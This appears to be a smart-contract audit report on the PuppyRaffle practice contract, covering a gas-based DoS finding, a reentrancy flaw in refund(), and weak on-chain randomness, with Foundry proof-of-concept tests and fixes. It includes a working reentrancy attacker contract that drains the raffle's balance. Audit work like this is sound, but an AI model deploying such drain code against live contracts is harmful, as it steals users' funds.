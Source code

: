 ### [M-#] Looping Through Array For Checking Duplicates Leads To DOS Attack, Which Causes Rise In Gas For Later Participants. 

**Description:** At `PuffyRaffle:enterRaffle` checks for duplicates of players address.
```javascript
@>      // Check for duplicates
        // @audit DOS
        for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }

``` 
As the `PuffyRaffle:players` array gets largers the cost of gas will be raised as more iterration will be done on reading state varibale s `players` array. This leads to that participants who enter first will pay less gas than who enters later this will create discouraegment amount the users to use the protocol and there will be rush to use the protocol first

**Impact:**  The more players enter the more gas price rises. Which Creates Discouragement Amount The User. And Will Create A Rush To Join The Protocol.

**Proof of Concept:**
Check Out The Test Function of `PuffyRaffleTest.t.sol:: testDosAttack`.

<details>
<summary>
    POC
</summary>

```javascript
        function testDosAttack() public{
        vm.txGasPrice(1);

        uint256 playersNumbers = 100;

        address [] memory players = new address[](playersNumbers);

        // Dummy first array of 100
        for(uint256 i =0; i< playersNumbers; i++){
            players[i] = address(i);

        }

       uint256 gasStart1 = gasleft();

        puppyRaffle.enterRaffle{value: entranceFee * playersNumbers}(players);

        uint256 gasEnd1 = gasleft();
        
        // gas used For First 100 plyaers enetrance 
        uint256 gasUsed1 = gasStart1 - gasEnd1;


        address [] memory players2 = new address[](playersNumbers);

        for(uint256 i =0; i< playersNumbers; i++){
            players2[i] = address(i+playersNumbers);

        }

        uint256 gasStart2 = gasleft();

        puppyRaffle.enterRaffle{value: entranceFee * playersNumbers}(players2);

        uint256 gasEnd2 = gasleft();

        // gas used For Second 100 plyaers enetrance 
        uint256 gasUsed2 = gasStart2 - gasEnd2;
        console.log("Gas Used For First 100 Players enterance", gasUsed1);
        console.log("Gas Used For Second 100 Players enterance", gasUsed2);


        assert(gasUsed2> gasUsed1);

    }

```

</details>

run the test 
```
forge test --match-test testDosAttack
```

**Recommended Mitigation:** There Are Few Recommended Mitigations.
1. Consider Adding Duplicate Address. As user Can Create Multiple Address From Wallet Add them To The Array Which Also   Will be Diffrent Addres Address But Created By Same User.
2. Use Players Id Which Provide Every single A id And It Maps To A Mapping And Check that Mapping.



### [H-1] Upadting State Variable After Low Level Call Leads To ReentracyAttack ,Means All The Fund Can Be Stealed.

**Description:** The `PuppyRaffle::refund` function updates state variable `PuppfyRaffle::players` array sendeing sending value to the caller.

```javascript
@>  payable(msg.sender).sendValue(entranceFee);

    players[playerIndex] = address(0);
```

Which leads to `ReenteracyAttack`. Through this attack an attacker cann again again `PuppyRaffle::refund` function untill the contract balance reaches to zero which is impacts massive loss. 

**Impact:** The Funds Stored On Contract Are Not Secure. Can Be Taken By A Single Entity. 

**Proof of Concept:**
The May Create Contract With The Initialiazation of Victim i.e(`PuppyRaffle`) Contract. And Set Up A Fallback Or Receive Function As Low Level Call Fall Into These Two Fnction We Can Again Call The Targeted Function Of The Victim i.e(`PuppyRaffle`) Contract  Again Again Until The Attacker Conditon Meets (Notes : If A Contract Call A Low Level Fucntion Call Of A Another Contract The Low Level Call First Return Back to the Contract That Has Called The Low Level Call)

Below The Code DemosTration The Full Scecenrio

<details>
<summary>
Attacker Contract
</summary>

```javascript
contract ReentraceyAttackOnPuppyRaffle {

    PuppyRaffle puppyRafle;

    uint256 attackerIndex;

    uint256 enteranceFee;

    constructor(address _puppyRaffle, uint256 _entranceFee){
        puppyRafle = PuppyRaffle(_puppyRaffle);
        enteranceFee = _entranceFee;
    }

    function atttack() external payable{
        address[] memory attackers = new address[](1);
        attackers[0] = address(this);
        puppyRafle.enterRaffle{value:enteranceFee}(attackers);

        attackerIndex = puppyRafle.getActivePlayerIndex(address(this));

        puppyRafle.refund(attackerIndex);
    }

    function _steal() internal {
        if(address(puppyRafle).balance >= enteranceFee){
            puppyRafle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _steal();
    }

    receive() external payable {
        _steal();
    }
}


```
</details>
You can the Below Test On Foundry

```
forge test --match-test testreentractyAttckTest

```
<details>
<summary>
Test Case Code 
</summary>

```javascript
    function testreentractyAttckTest() public{
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        uint256 startingPuffyRaffleBalance = address(puppyRaffle).balance;

        address attacker = makeAddr("attacker");

        vm.deal(attacker, 2 ether);

        ReentraceyAttackOnPuppyRaffle  reeentraceAttacker = new ReentraceyAttackOnPuppyRaffle(address(puppyRaffle),entranceFee);

        uint256 startingAttackerContractBalance = address(reeentraceAttacker).balance;

        // attakce

        vm.prank(attacker);
        reeentraceAttacker.atttack{value:entranceFee}();

        uint256 endingBalanceOfAttackerContract = address(reeentraceAttacker).balance;
        uint256 endingBalanceOfpuppyContract = address(puppyRaffle).balance;

        console.log("Attacker Balance Before Attack", startingAttackerContractBalance);

        console.log("Puupyy Balance Before Attack", startingPuffyRaffleBalance);

        console.log("Ending Blance Of Attaker Contarct",endingBalanceOfAttackerContract);
        console.log("Ending Blance Of Puppy Contarct",endingBalanceOfpuppyContract);

        assert(address(puppyRaffle).balance==0);

    }
```
</details>



**Recommended Mitigation:** There Are Recommended Few Mitigation On This Specific Atack Vector You Choose As Per Requiements

1. Update State Variable Before Low Level Call.
```diff
+   players[playerIndex] = address(0);
    payable(msg.sender).sendValue(entranceFee);  
```
```diff
    payable(msg.sender).sendValue(entranceFee);
-   players[playerIndex] = address(0);
```

2. Or Use A nonReentrant Modifier From Openzeppelin.

<details>
    <summary>
        Refactored refund Function With The Modifier
    </summary>

```javascript
    function refund(uint256 playerIndex) nonReentrant public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```
</details>

Find More About `ReentrancyGuard` From  <a href = "https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard">Openzeppelin</a>





### [H-#] Generating Random Random Number On Chain Is Predictable, Leads To Successfully Guess Winner.

**Description:** At The `PuppyRaffle::selectWinner` function selecting wiiner index using on cahin random winner is highly vunrable `uint256 winnerIndex =int256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;`. Here `block.timestamp` is adjsutable by the miner and `block.difficulty` is not a tru difficulty it come from previous block which is open to miner. See more details on <a href="https://eips.ethereum.org/EIPS/eip-4399">`EIP-4339`</a> at security sections.



**Impact:** Winner Can Be Predicted & Made By Miners Choice.


**Recommended Mitigation:** Generating Random Number On-Chain Is Not Recommended. User One Chain Number Generation
Services of Chainlink Like <a href="https://docs.chain.link/vrf">`Chainlink VRF`</a> is Recommended.



